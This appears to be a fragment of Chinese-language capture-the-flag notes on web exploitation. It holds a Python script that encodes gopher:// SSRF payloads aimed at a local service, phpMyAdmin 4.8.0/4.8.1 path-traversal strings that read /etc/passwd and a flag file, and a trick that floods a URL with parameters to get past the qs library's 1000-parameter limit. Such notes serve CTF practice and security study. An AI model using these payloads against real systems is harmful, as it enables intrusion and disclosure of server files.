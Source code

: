 ```python
import urllib.parse

payload =\
"""
yourpayload
"""  # 注意后面一定要有回车，回车结尾表示http请求结束

tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A', '%0D%0A')
new = urllib.parse.quote(new)
result = 'gopher://127.0.0.1:80/' + '_' + new
result = urllib.parse.quote(result)
print(result)
```

`GET /?url=http://127.0.0.1:80/index.php?url=result   HTTP/1.1`重发即可

## 一些漏洞

对于某些漏洞，查询版本即可
如phpmyadmin 4.80/4.81

- `?target=db_datadict.php%253f../../../../../../etc/passwd`
- `?target=db_datadict.php%253f../../../../../../flag`
即可获取flag

qs:
qs是负责url参数转换js库。

简单用法：foo[bar]=baz-->
```bash
assert.deepEqual(qs.parse('foo[bar]=baz'),{
    foo:{
      bar:'baz'
    }
});
#可嵌套对象
#   foo:{
#     bar:{
#         baz：'foobarbaz'
#     }
#   }
```

url:a=b&proxy=nginx-->
`{a:'b',proxy:'nginx'}`
qs最多解析1000个参数
所以
answer: `url/?a=1&a=1.............`

## END
